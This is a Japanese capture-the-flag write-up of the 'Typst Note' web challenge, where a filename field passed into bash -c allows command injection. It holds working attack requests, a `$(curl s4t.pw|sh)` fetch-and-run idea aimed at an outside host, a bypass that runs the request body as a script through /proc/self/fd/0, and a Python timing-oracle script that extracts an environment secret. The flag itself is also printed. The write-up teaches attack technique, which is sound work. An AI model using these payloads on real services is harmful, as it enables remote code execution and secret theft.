



# Typst Note:Web:372.41pts
Typst という組版システムで書いたノートを Web 上で公開できるサービスを作ってみたから、みんな使ってみて！  
  
サイト → [https://typst-note.web.cpctf.space/](https://typst-note.web.cpctf.space/)  
  
ソースコード → [https://files.cpctf.space/typst-note.zip](typst-note.zip)  

**Hint1**  
ノートを公開申請したとき、サーバー上で Typst が PDF にコンパイルされています。しかし、その PDF は管理者のみが見えるよう保管され、コンパイルに失敗した場合のエラーメッセージも申請者には返されず成功したかどうかのみしか分からないため、Typst の機能で flag を取得することはできません。  
ただ、コンパイルをする際に直接 `typst` コマンドを呼ばず、Bash 上で `typst` コマンドを実行しているため、OS Command Injection の脆弱性があるかもしれません。  
**Hint2**  
ファイル名が Bash で実行するコマンドに埋め込まれるため、ファイル名を工夫することで任意のコマンドを実行することができます。このときファイル名には簡単なエスケープが施されていますが、`$()` を使うことでコマンドを実行することができます。  
しかし、seccomp の設定で外向きのインターネットが遮断されているため、flag を自分のサーバーに送信することはできません。そのため、ユーザーがサーバーから得られる情報は以下の 2 つだけです。  

- コンパイルに成功したかどうか  
- コンパイルにかかったおおよその時間  

これらの情報のみを使い、flag を特定する必要があります。環境変数 `FLAG` に flag が格納されているため、これを `CPCTF{` の後ろから 1 文字ずつ二分探索していくことで flag を特定することができます。  
フラグ形式は `CPCTF{[a-zA-Z0-9-_!?]+}` なので文字コードの最小は `!` の 33 で最大は `}` の 125 であり、この間には Bash で特殊な意味を持つ記号が含まれていることに注意しましょう。  
**Hint3 (解法)**  
`pageId` は 25 文字以内にする必要があるため、できるだけ短くなるよう工夫する必要があります。Bash の `[[` という組み込みコマンドを使うことで文字列の辞書順比較を行うことができるため、これを利用してみましょう。  
`$FLAG` の中身が `CPCTF{th1s_is_s4mp1e!?}` であるとき、これをスライスした `${FLAG:6}` は `th1s_is_s4mp1e!?}`となり、これは辞書順で `t` よりも大きく `s` よりも小さいため、`[[ ${FLAG:6} > t ]]` のようなコマンドの終了コードを数回調べることで好きな文字を特定することができます。  
そして `&&` や `||` を繋げることで、この終了コードによって実行するコマンドを切り替えることができるため、これを利用することで比較の結果を得ることができます。  
また、`typst compile` コマンドの出力ファイル名を `.pdf` のように指定することで、Typst は拡張子を認識できなくなるためエラーを起こすことができ、これによってコンパイルに成功したかどうかで比較の結果を得ることができます。  
これらをまとめると、`$( [[ ${FLAG:10} > A ]] && echo A )` のような `pageId` を指定すればよいことになりますがこれでは 25 文字を超えてしまうため、無駄なスペースを省略したり 2 文字で標準出力を得られるコマンド `ls` 等を使ったりすることで
```bash
$([[ ${FLAG:10}>A ]]&&ls)
```
のように短縮する必要があります。これはちょうど 25 文字であり、このような `pageId` を指定して各文字を二分探索するようなプログラムを作ることで、flag を特定することができます。  
ただし、この方法を実装する際は以下の 2 つの注意点があります。  

- 文字コード 33 から 125 の間には `&` や `|` などの特殊な記号があり、比較する文字に特殊な文字を使うと辞書順に関わらずエラーになってしまい、二分探索が狂ってしまいます。そのため、比較する文字にはフラグ形式に含まれる文字のみを使うようにしましょう。  
- Flag の最後の文字である `}` を比較するときだけ `>` の左辺が 1 文字になるため、両辺の先頭の文字が同じのときに偽として評価されることに気をつけましょう。  

# Solution
URLとソースコードが渡される。  
アクセスすると、Typstで作成したPDFを共有できるTypst Noteというサービスのようだ。  
  
Editorもあり、なぜかAdminに公開をリクエストしなければならないようだ。  
  
PDFでのXSS問題かと睨みソースを確認すると、主要なServer.ktは以下の通りであった。  
```kt
~~~
@Serializable
data class PublishRequest(
    val pageId: String,
    val content: String,
)

val logger: Logger = LoggerFactory.getLogger("TypstNoteServer")

fun main(args: Array<String>) {
    logger.info("FLAG: ${System.getenv("FLAG")}")
    EngineMain.main(args)
}

fun Application.module() {
    install(ContentNegotiation) {
        json()
    }

    routing {
        staticResources("/", "static")

        post("/api/request-publish") {
            try {
                val request = call.receive<PublishRequest>()
                if (request.pageId.trim().isEmpty()) {
                    throw IllegalArgumentException("Page ID cannot be empty")
                }
                if (request.pageId.length > 25) {
                    throw IllegalArgumentException("Page ID is too long")
                }
                val pdfName = "\"${request.pageId.replace(Regex("""(?=["`\\])"""), "\\\\")}.pdf\""

                // Compile the Typst code into PDF
                Files.createDirectories(Paths.get("requests"))
                val compileProcess = ProcessBuilder("bash", "-c", "typst compile - requests/$pdfName").start()
                compileProcess.outputStream.use {
                    it.write(request.content.toByteArray())
                    it.flush()
                }
                if (compileProcess.waitFor() != 0) {
                    throw RuntimeException(compileProcess.errorStream.bufferedReader().readText())
                }

                logger.info("Received publish request: $pdfName")
                call.respondText("Publish request received", status = HttpStatusCode.OK)
            } catch (e: Exception) {
                // DO NOT respond with the error message for security reasons
                call.respondText("Error processing publish request", status = HttpStatusCode.BadRequest)
            }
        }
    }
}
```
フラグはCookieなどではなく、環境変数`FLAG`にあることがわかる。  
どうやらAdmin Botがクロールするなどの機能もなく、pdfに変換して終わっているようだ。  
また、エラーメッセージはセキュリティの理由で表示しないとある。  
コード中には`ProcessBuilder`などヤバそうな実装箇所もある。  
正規表現などが正しいか検証が面倒なため、ChatGPT o1 proに以下の質問を投げてやる。  
```
以下に脆弱性はある？あるならば短めに解説して、それを検証するペイロードを書いて。
-----
        post("/api/request-publish") {
            try {
                val request = call.receive<PublishRequest>()
                if (request.pageId.trim().isEmpty()) {
                    throw IllegalArgumentException("Page ID cannot be empty")
                }
                if (request.pageId.length > 25) {
                    throw IllegalArgumentException("Page ID is too long")
                }
                val pdfName = "\"${request.pageId.replace(Regex("""(?=["`\\])"""), "\\\\")}.pdf\""

                // Compile the Typst code into PDF
                Files.createDirectories(Paths.get("requests"))
                val compileProcess = ProcessBuilder("bash", "-c", "typst compile - requests/$pdfName").start()
                compileProcess.outputStream.use {
                    it.write(request.content.toByteArray())
                    it.flush()
                }
                if (compileProcess.waitFor() != 0) {
                    throw RuntimeException(compileProcess.errorStream.bufferedReader().readText())
                }

                logger.info("Received publish request: $pdfName")
                call.respondText("Publish request received", status = HttpStatusCode.OK)
            } catch (e: Exception) {
                // DO NOT respond with the error message for security reasons
                call.respondText("Error processing publish request", status = HttpStatusCode.BadRequest)
            }
        }
```
すると以下のような返答が返ってきた。  
  
`pageId`に`$()`を入れ込むことで任意コマンドが実行できるようだ。  
試しに以下のように行う。  
```bash
$ time curl -X POST https://typst-note.web.cpctf.space/api/request-publish -H 'Content-Type: application/json' -d '{"pageId": "example","content": "test"}'
Publish request received
real    0m0.196s
user    0m0.040s
sys     0m0.013s
$ time curl -X POST https://typst-note.web.cpctf.space/api/request-publish -H 'Content-Type: application/json' -d '{"pageId": "$(sleep 3)","content": "test"}'
Error processing publish request
real    0m3.094s
user    0m0.076s
sys     0m0.000s
```
`$(sleep 3)`を行った際のレスポンスが大きく遅れていることから、コマンドが実行できているとわかる。  
`pageId`が25文字以下との制限があるが、`$(curl s4t.pw|sh)`とし、s4t.pwに適当なシェルスクリプトを置いておけばよいと考える。  
あとはcurlなどで`/proc/self/environ`を読んで外部へ持ち出してやるだけだ。  
ところが、docker-seccomp.jsonに以下のような記述があった。  
```json
{
  "defaultAction": "SCMP_ACT_ALLOW",
  "syscalls": [
    {
      "names": [
        "connect",
        "getaddrinfo",
        "gethostbyname",
        "gethostbyname2"
      ],
      "action": "SCMP_ACT_ERRNO"
    }
  ]
}
```
seccompをかけているので、外部サーバへのリクエストが利用できない。  
つまり25文字以下のRCEは可能であるが、エラーメッセージも返ってこない状態から環境変数`FLAG`を盗み出せという問題設定のようだ。  
25文字でコードゴルフしてもよいがTypst変換サービスである必要もないので、まずは25文字制限を突破することを考える。  
一文字ずつリダイレクトで書き込み可能な場所にあるファイルにスクリプトを書いて実行するのもよいが、面倒かつ書き込めるかも不明だ。  
考えていると`content`をまったく使っていないことに気づく。  
`content`に何らかのスクリプトなりを書いて、`pageId`から参照できないだろうか。  
ここで、ファイルディスクリプタ経由で読みだせそうだと思いつく。  
`/proc/self/fd/0`のstdinをbashで実行してやり、その中の`content`で25文字以下の制限を突破できそうだ。  
以下のように行う。  
```bash
$ time curl -X POST https://typst-note.web.cpctf.space/api/request-publish -H 'Content-Type: application/json' -d '{"pageId": "$(bash /proc/self/fd/0)","content": "sleep 3"}'
Error processing publish request
real    0m3.069s
user    0m0.042s
sys     0m0.010s
$ time curl -X POST https://typst-note.web.cpctf.space/api/request-publish -H 'Content-Type: application/json' -d '{"pageId": "$(bash /proc/self/fd/0)","content": "id && id && id && id && id && sleep 4 # satoki"}'
Publish request received
real    0m4.001s
user    0m0.050s
sys     0m0.000s
```
あとは自由にスクリプトが書けるので、Time-Based Oracleで一文字ずつ特定していけばよい。  
`[ "${FLAG:0:1}" = "C" ] && sleep 3`のように該当箇所の文字が一致した場合にのみ、`sleep 3`するように設定する。  
以下のsolve.pyで行う。  
```python
import time
import requests

url = "https://typst-note.web.cpctf.space/api/request-publish"
headers = {"Content-Type": "application/json"}

known_prefix = "CPCTF{"
flag = known_prefix
i = len(known_prefix)

candidates = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789?!{}_-"

while True:
    found_char = ""
    for c in candidates:
        content = f'[ "${{FLAG:{i}:1}}" = "{c}" ] && sleep 3'
        json_data = {"pageId": "$(bash /proc/self/fd/0)", "content": content}

        start = time.time()
        try:
            requests.post(url, json=json_data, headers=headers, timeout=10)
        except requests.exceptions.Timeout:
            pass
        end = time.time()

        elapsed = end - start

        if elapsed > 2:
            flag += c
            found_char = c
            print(f"[+] Found char '{c}' => {flag}")
            i += 1
            break

        time.sleep(0.5)

    if found_char == "}":
        break

    if not found_char:
        print(f"[!] Could not find char at position {i}. Current flag: {flag}")
        break
```
実行する。  
```bash
$ python solve.py
[+] Found char 'H' => CPCTF{H
[+] Found char '!' => CPCTF{H!
[+] Found char 'd' => CPCTF{H!d
[+] Found char 'e' => CPCTF{H!de
[+] Found char 'E' => CPCTF{H!deE
[+] Found char 'r' => CPCTF{H!deEr
[+] Found char 'r' => CPCTF{H!deErr
[+] Found char '0' => CPCTF{H!deErr0
[+] Found char 'r' => CPCTF{H!deErr0r
[+] Found char 'N' => CPCTF{H!deErr0rN
[+] Found char '0' => CPCTF{H!deErr0rN0
[+] Found char 't' => CPCTF{H!deErr0rN0t
[+] Found char '5' => CPCTF{H!deErr0rN0t5
[+] Found char '4' => CPCTF{H!deErr0rN0t54
[+] Found char 'f' => CPCTF{H!deErr0rN0t54f
[+] Found char 'e' => CPCTF{H!deErr0rN0t54fe
[+] Found char '}' => CPCTF{H!deErr0rN0t54fe}
```
flagが得られた。  

## CPCTF{H!deErr0rN0t54fe}